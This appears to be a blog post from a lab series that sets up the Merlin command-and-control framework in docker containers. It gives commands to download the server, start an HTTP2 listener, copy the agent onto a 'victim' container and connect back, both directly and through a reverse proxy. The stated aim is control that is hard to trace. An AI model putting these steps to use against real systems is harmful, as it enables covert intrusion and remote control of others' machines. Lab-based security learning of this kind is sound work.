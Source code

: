 ```yaml
---
title: Time for RAT.
description: Draft
date: 2021-07-02
scheduled: 2021-07-02
layout: layouts/post.njk
tags:
    - posts
---
```


We have our Attacker server ready, we have our Reverse-Proxy ready, and we have encrypted HTTPS communication.
### It's time for our RAT.
A RAT is a Remote Access Tool. They can be used in a number of positive ways like Windows Remote Control or SSH sessions. Our RAT is going to be malicious though. We're going to control our Victim's system from our Attacker and by using a Reverse-Proxy and SSL we'll be masked and hidden, impossible to trace. Well, not really. But it won't be easy! (We'll try that later.)

First let's get our tools.
Download wget and 7zip onto our Attacker:

``` bash 
apt install wget
apt-get install p7zip-full
```

Next let's get ![Merlin](https://github.com/Ne0nd0g/merlin).
Merlin is a cross-platform post-exploitation Command & Control server and agent written in Go.
We'll create a directory for it and unpack it using 7zip, as per instructions on the ![official site](https://merlin-c2.readthedocs.io/en/latest/quickStart/server.html).

``` bash
mkdir /opt/merlin;cd /opt/merlin
wget https://github.com/Ne0nd0g/merlin/releases/latest/download/merlinServer-Linux-x64.7z
7z x merlinServer-Linux-x64.7z
./merlinServer-Linux-x64
```

![Merlin](/img/remote/merlin.png)

Let's close it for now though, you can do that with `exit` command.

Merlin consists of the server part, which we just saw, and an agent. An agent will sit in our victim, waiting for the server's instructions and executing them. We already have three precompiled agents for each of the big platforms, Windows, Linux and MacOS.
Navigate into `/opt/merlin/data/bin/linux` and you'll find `merlinAgent-Linux-x64`.

Merlin is a post-exploitation framework, meaning it isn't within the scope of the program to get the agent onto our victim. There are plenty ways for that which I won't try to cover. Let's just copy and paste it into our victim.
First, find the Attacker's and Victim's docker container ID's.

``` bash
docker ps 
```
Now we'll copy the agent from our attacker to our desktop and then from our desktop to our victim.

``` bash
docker cp 75566028d8fb:/opt/merlin/data/bin/linux/merlinAgent-Linux-x64 ~/Desktop/merlinAgent-Linux-x64
docker cp ~/Desktop/merlinAgent-Linux-x64 b9d55696b755:/merlinAgent-Linux-x64
```

Now, we're ready! Let's just check out how Merlin server and Agent work together.
Inside attacker start up Merlin. It's worth mentioning that Merlin has tab completion so if you're unsure about the availeable commands just hit TAB and it'll show you.
Let's use HTTP2.

``` bash
listeners
use http2
options
```

We'll see the defaults now. We'll need to change some of them.
![Merlin options](/img/remote/merlin-options1.png)

Let's use the IP of our container and the port 5555 we've specified earlier and start up our listener.

``` bash
set Interface 172.17.0.3
set Port 5555
start
```

Now we have to connect to our listener with our agent.
Go to victim, navigate to where the agent is, and enter the following:

``` bash
./merlinAgent-Linux-x64 -v -url https://172.17.0.3:5555 -psk 'merlin'
```
With the verbose `-v` flag you should see everything the agent is doing, and on the other side, in our Merlin server, you should see the connection.
Now you have a full control over victim from attacker.
Try our a simple `ls` to get a list of files.

![Merlin ls](/img/remote/merlin-ls.png)

Feels good!

Now let's route the commands through our reverse proxy.
Close the agent with a CTRL + C and enter the following:

``` bash
./merlinAgent-Linux-x64 -v -url https://172.17.0.4/merlin -psk 'merlin'
```

This time we're using the IP of our reverse-proxy, and it still connects!
We'll be using those two scenarios, with and without the reverse-proxy, in the next post.